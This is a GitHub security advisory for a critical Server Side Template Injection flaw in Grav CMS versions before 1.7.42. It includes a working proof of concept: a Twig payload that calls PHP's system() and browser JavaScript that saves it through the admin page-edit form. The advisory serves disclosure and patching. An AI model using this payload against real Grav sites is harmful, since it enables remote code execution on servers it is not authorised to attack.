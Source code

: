 
Grav Server Side Template Injection (SSTI) vulnerability
Critical severity GitHub Reviewed Published Jun 14, 2023 in getgrav/grav • Updated Nov 5, 2023
Vulnerability details
Dependabot alerts 0
Package
getgrav/grav (
Composer
)
Affected versions
< 1.7.42
Patched versions
1.7.42
Description
Summary

I found an RCE(Remote Code Execution) by SSTI in the admin screen.
Details

Remote Code Execution is possible by embedding malicious PHP code on the administrator screen by a user with page editing privileges.
PoC

    Log in to the administrator screen and access the edit screen of the default page "Typography". (http://127.0.0.1:8000/admin/pages/typography)
    Open the browser's console screen and execute the following JavaScript code to confirm that an arbitrary command (id) is being executed.
```
(async () => {
  const nonce = document.querySelector("input[name=admin-nonce]").value;
  const id = document.querySelector("input[name=__unique_form_id__]").value;

  const payload = "{{['id']|map('system')|join}}"; // SSTI Payload

  const params = new URLSearchParams();
  params.append("task", "save");
  params.append("data[header][title]", "poc");
  params.append("data[content]", payload);
  params.append("data[folder]", "poc");
  params.append("data[route]", "");
  params.append("data[name]", "default");
  params.append("data[header][body_classes]", "");
  params.append("data[ordering]", 1);
  params.append("data[order]", "");
  params.append("toggleable_data[header][process]", "on");
  params.append("data[header][process][twig]", 1);
  params.append("data[header][order_by]", "");
  params.append("data[header][order_manual]", "");
  params.append("data[blueprint", "");
  params.append("data[lang]", "");
  params.append("_post_entries_save", "edit");
  params.append("__form-name__", "flex-pages");
  params.append("__unique_form_id__", id);
  params.append("admin-nonce", nonce);

  await fetch("http://127.0.0.1:8000/admin/pages/typography", {
    method: "POST",
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: params,
  });

  window.open("http://127.0.0.1:8000/admin/pages/poc/:preview");
})();
```